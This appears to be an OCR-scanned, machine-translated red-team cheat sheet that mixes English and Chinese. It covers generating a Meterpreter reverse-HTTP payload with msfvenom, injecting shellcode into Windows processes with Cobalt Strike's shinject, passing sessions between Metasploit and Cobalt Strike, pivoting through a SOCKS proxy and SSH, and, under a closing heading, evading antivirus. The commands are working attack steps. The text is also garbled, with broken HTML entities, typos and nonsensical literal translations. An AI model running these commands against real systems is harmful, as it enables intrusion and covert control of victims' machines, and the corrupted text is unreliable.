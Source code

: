 msfvenom -p Windows/x64/meterpreter_reverse_http lhost =＆＃x3c; ip> lport =＆＃x3c; port> -f raw -o/tmp/msf.bin
## Run msfvenom and prepare the multi/handler listener

## Copy bin file to coblat strike host

##将bin文件复制到钴罢工主机
ps
shinject &#x3C;pid> x64 C:\Payloads\msf.bin #Inject metasploit shellcode in a x64 process

shinjects＆＃x3c; pid> x64 c：\有效载荷\ msf.bin #inject shellcode在x64进程中

# Pass metasploit session to cobalt strike

＃通过Metasploit会议进行钴罢工
## Fenerate stageless Beacon shellcode, go to Attacks > Packages > Windows Executable (S), select the desired listener, select Raw as the Output type and select Use x64 payload.

## Fenate无符合信标SHELLCODE，转到攻击>软件包> Windows可执行文件，选择所需的侦听器，选择RAW作为输出类型，然后选择使用X64有效载荷。
## Use post/windows/manage/shellcode_inject in metasploit to inject the generated cobalt srike shellcode

##在metasploit中使用post/windows/manage/shellcode_inject注入生成的钴srike shellcode


# Pivoting
## Open a socks proxy in the teamserver

##在TeamServer中打开袜子代理
beacon> socks 1080

信标>袜子1080

# SSH connection
beacon> ssh 10.10.17.12:22 username password</code></pre>

信标> SSH 10.10.17.12:22用户名密码</code> </pre>

## Avoiding AVs

### Artifact Kit

###文物套件
